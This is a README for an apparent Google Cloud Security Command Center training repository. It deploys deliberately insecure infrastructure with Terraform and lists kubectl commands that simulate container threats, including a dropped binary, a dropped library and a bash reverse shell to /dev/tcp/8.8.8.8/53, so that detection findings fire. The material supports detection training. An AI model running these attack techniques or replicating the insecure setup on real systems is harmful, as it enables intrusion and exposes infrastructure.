# Secure Command Center Training

## Purpose

This repository aims to learn Security Command Center by detecting an insecure infrastructure findings in a development environment.

## Prerequisites

To run the commands described in this document, you need to have the following
installed:

- The [Google Cloud SDK](https://cloud.google.com/sdk/install) version 319.0.0 or later
- [Terraform](https://www.terraform.io/downloads.html) version 0.13.6.
- An existing project and GCS Bucket to store Terraform state

**Note:** Make sure that you use the same version of Terraform throughout this
series. Otherwise, you might experience Terraform state snapshot lock errors.

## Update variables

1. Change to deployment directory
   ```
   cd envs/development
   ```
1. Update `backend.tf` with an existing GCS bucket to store Terraform state.
   ```
   bucket = "UPDATE_ME"
   ```
1. Rename `terraform.example.tfvars` to `terraform.tfvars` and update the file with values from your environment:
   ```
   mv terraform.example.tfvars terraform.tfvars
   ```
1. Update required  variables
   
## Deploy Insecure Infrastructure

### Deploy from a desktop

1. Run `terraform init`
1. Run `terraform plan` and review the output.
1. Run `terraform apply`

## Generate Threat Findings

While several findings will automatically trigger during the deployment, the following instructions can be leveraged to trigger Container Threat Detection and Data exfiltration findings.

1. Set variables 
```
export PROJECT_ID=YOUR_PROJECT_ID
export GKE_CLUSTER=YOUR_GKE_CLUSTER_NAME
```
1. Download Cluster credentials
```
gcloud container clusters get-credentials $GKE_CLUSTER \
 --zone us-central1 \
 --project $PROJECT_ID
```
1. Add a binary to a running container
```
tag="dropped-binary-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /bin/ls /tmp/$tag; /tmp/$tag"
```
1. Add a library to a running container
tag="dropped-library-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /lib/x86_64-linux-gnu/libc.so.6 /tmp/$tag; /lib64/ld-linux-x86-64.so.2 /tmp/$tag"

1. Start a reverse shell in running container
tag="reverse-shell-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "/bin/echo >& /dev/tcp/8.8.8.8/53 0>&1"


### Optional Deploy a Cloud Build environment

1. Deploy Bootstrap environment from [Cloud Foundation Toolkit](https://github.com/terraform-google-modules/terraform-example-foundation/tree/master/0-bootstrap)

1. Add cloud_source_repos to terraform.tfvars file to build gcp-scc-training repo in 0-bootstrap

   ```
   cloud_source_repos = ["gcp-org", "gcp-environments", "gcp-networks", "gcp-projects", "gcp-scc-training"]
   ```
1. Run `terraform apply`

#### Deploy from Cloud Build pipeline

1. Clone the empty gcp-scc-training repo.
   ```
   gcloud source repos clone gcp-scc-training --project=YOUR_CLOUD_BUILD_PROJECT_ID_FROM_0-bootstrap
   ```
1. Navigate into the repo and change to a non-production branch.
   ```
   cd gcp-scc-training
   git checkout -b plan
   ```
1. Copy the development environment directory and cloud build configuration files
   ```
   cp -r ../gcp_scc_training/envs  .
   cp ../gcp_scc_training/build/*  . 
   ```
1. Ensure wrapper script can be executed.
   ```
   chmod 755 ./tf-wrapper.sh
   ```
1. Commit changes.
   ```
   git add .
   git commit -m 'Your message'
   ```
1. Push your plan branch to trigger a plan. For this command, the branch `plan` is not a special one. Any branch which name is different from `development`, `non-production` or `production` will trigger a Terraform plan.
   ```
   git push --set-upstream origin plan
   ```
1. Review the plan output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID
1. Merge changes to production branch.
   ```
   git checkout -b development
   git push origin development
   ```
1. Review the apply output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID

1. Destroy the infrastructure with gcloud build command
   ```
   gcloud builds submit . --config=cloudbuild-tf-destroy.yaml --project your_build_project_id --substitutions=BRANCH_NAME="$(git branch 2> /dev/null | sed -e '/^[^*]/d' -e 's/* \(.*\)/\1/')",_ARTIFACT_BUCKET_NAME='Your Artifact GCS Bucket',_STATE_BUCKET_NAME='Your Terraform GCS bucket',_DEFAULT_REGION='us-central1',_GAR_REPOSITORY='prj-tf-runners'
   ```

